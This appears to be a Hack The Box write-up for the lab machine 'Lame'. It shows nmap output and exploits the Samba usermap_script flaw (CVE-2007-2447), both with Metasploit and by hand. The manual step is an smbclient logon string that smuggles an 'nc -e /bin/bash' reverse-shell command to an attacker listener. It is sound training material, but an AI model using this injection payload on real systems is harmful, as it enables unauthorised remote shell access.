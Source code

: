 ```yaml
---
title: 'HTB Lame'
date: 2022-09-09 12:00:00
featured_image: '/images/htb/lame.png'
excerpt: Lame
---
```


![](/images/htb/lame.png)

`nmap -sC -sV 10.10.10.3`

```text
-sC - default set of scripts
-sV - enables version detection
```

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 09:39 CEST
Nmap scan report for 10.10.10.3
Host is up (0.068s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-19T03:40:29-04:00
|_clock-skew: mean: 2h00m41s, deviation: 2h49m43s, median: 40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.92 seconds
```

Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.

Searching shows vuln: _CVE-2007-2447_

### Metasploit
`use usermap_script`
`set rhosts 10.10.10.3`
`exploit`

And... boom. We got shell.

In my case needed to change LHOST also - remember to check if it's the same as connected to HackTheBox.

### Without Metasploit

Start nc listener (other terminal):

```shell
nc -lvnp 4444
```

`-l - listen mode`
`-v - verbose`
`-n -  numeric-only IP, no DNS`
`-p - port`

Second terminal:

`smbclient //10.10.10.3/tmp `
`enter`

```shell
logon "./=`nohup nc -e /bin/bash <your ip> 4444`"
```

`logon: - it is used to login into smb`
`nohup: - run a command immune to hangups, with output to a non-tty`

We got it.

There are two flags:
```shell
cat /root/root.txt
cat /home/makis/user.txt
```
